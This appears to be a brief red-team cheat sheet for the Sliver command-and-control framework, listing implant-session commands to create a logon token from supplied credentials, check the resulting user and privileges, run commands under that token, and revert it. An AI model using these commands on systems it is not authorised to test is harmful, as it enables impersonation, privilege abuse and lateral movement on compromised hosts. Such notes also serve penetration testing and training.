 # Sliver

## 01 - Make Token

```
sliver (IMPLANT_NAME) > make-token -u <username> -d . -p <password>
```

Enumerate current user with privileges.

```
sliver (IMPLANT_NAME) > whoami

sliver (IMPLANT_NAME) > getprivs
```

Execute commands with the currently obtained token.

```
sliver (IMPLANT_NAME) > execute -T -o <commands>
```

## 02 - Revert Token

```
sliver (IMPLANT_NAME) > rev2self
```